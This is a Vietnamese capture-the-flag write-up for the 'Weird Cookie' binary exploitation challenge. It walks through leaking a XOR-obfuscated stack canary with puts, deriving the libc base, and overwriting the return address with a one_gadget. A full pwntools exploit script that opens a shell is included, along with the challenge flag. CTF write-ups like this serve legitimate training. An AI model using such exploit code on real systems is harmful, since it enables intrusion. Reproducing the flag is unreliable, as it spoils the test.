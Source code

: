 # Weird Cookie

**ida:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/edcbeb3b-a8c4-404c-8488-6f810d893bd3)


chà tại đây có một  kiến thức mới mà ta cần biết trước khi tiến hành làm 

# XOR

**tại biến v5 và saved_canary có kí tự "^" là kí hiệu của XOR**

để tìm hiểu chi tiết về XOR thì ta có thể tham khảo wu của **@Nhatziet** 

https://github.com/trananhnhatviet/CryptoHack/blob/main/General/Xor/06_XOR%20Starter.md

**checks và vm:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/4b16be3a-a262-4b17-b3aa-3416ad05ac6c)


**ý tưởng giải bài :**

- ở ida ta thấy của biến canary giả nằm trên rbp để ngăn ta tràn biến xuống rip, nhưng tại đây ta có thể khai thác được canary bằng cách leak nó ra từ hàm puts
- hàm puts sẽ in ra giá trị của s khi nhập vào cho đến khi gặp null byte, ta sẽ lợi dụng điều này để leak ra canary 

![image](https://github.com/gookoosss/CTF.-/assets/128712571/c238da69-40ac-4ace-b606-c92a294cea76)


- như ảnh thì lần nhập đầu ta nhập 40byte để puts in ra canary ta cần
- từ thằng canary ta dùng XOR để leak ra địa chỉ của hàm &printf
- từ thằng printf ta sẽ tính offset để tính được địa chỉ libc
- có được địa chỉ base của libc thì sẽ khai thác như bth 

à tại đây ta cần biết thêm **1 kiến thức mới** nữa là **one_gadget**, hiểu đơn giản **one_gadget** trong file libc **là 1 cái offset trỏ đến shellcode mà chứa đầy đủ các thứ ta cần , rất đơn giản và nhanh chóng, tiện lợi**(hạn chế là không phải bài nào cũng dùng được)

![image](https://github.com/gookoosss/CTF.-/assets/128712571/37fb83f0-d323-4c30-8004-ca8b0798bbe4)



***script:***

```
from pwn import *

# p = remote(b'challenge.nahamcon.com', 30409)
exe = ELF("./weird_cookie_patched")
libc = ELF("./libc-2.27.so")
ld = ELF("./ld-2.27.so")
p = process('./weird_cookie_patched')

gdb.attach(p, gdbscript = '''
b*main+112
b*main+221
c
''')
input()

payload = b'a'*40 #offset đến canary 
p.send(payload) # gán vào lần nhập 1 

p.recvuntil(payload) # nhận 40byte đầu payload
canary = u64(p.recv(8)) # nhận 8byte sau của canary 
libc_printf = canary ^ 0x123456789ABCDEF1 # dùng xor để lấy được địa chỉ hàm printf
libc.address = libc_printf - 0x64e40 # tính địa chỉ base
log.info("canary: " + hex(canary))
log.info("libc printf: " + hex(libc_printf))
log.info("libc base: " + hex(libc.address))


pop_rdi = libc.address + 0x000000000002164f

#nhập lần 2
payload = b'a'*40 
payload += p64(canary)
payload += b'a'*8
# payload += p64(pop_rdi) + p64(libc.address + 0x1b3d88)

# payload += p64(libc.address + libc.sym['system'])
payload += p64(libc.address  + 0x4f302) # dùng onegadget
p.send(payload)

p.interactive()

# flag{e87923d7cd36a8580d0cf78656d457c6}

```
**(trong script mình có note lại chi tiết cách làm bài này)**

đến đây ta lấy được shell rồi lấy flag thôi

**FLAG:**

***flag{e87923d7cd36a8580d0cf78656d457c6}***





